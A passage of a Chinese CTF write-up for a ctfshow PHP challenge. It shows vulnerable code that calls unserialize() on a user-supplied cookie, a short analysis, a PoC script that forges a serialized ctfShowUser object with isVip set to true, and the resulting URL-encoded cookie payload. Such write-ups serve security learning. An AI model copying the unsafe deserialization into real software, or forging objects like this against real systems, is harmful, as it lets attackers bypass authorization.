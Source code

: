 ```php
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            echo "your flag is ".$flag;
        }else{
            echo "no vip, no flag";
        }
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);    
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
}
```

简单分析一下：

1. 要定义username和password；从cookie传值user进行反序列化
2. 序列化得到的username和password要和传入的相等
3. isvip为true

poc：

```php
<?php

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=true;
}

$a = new ctfShowUser();
echo urlencode(serialize($a));
```

payload:

```
get:?username=xxxxxx&password=xxxxxx

cookie:user=O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A8%3A%22password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
```
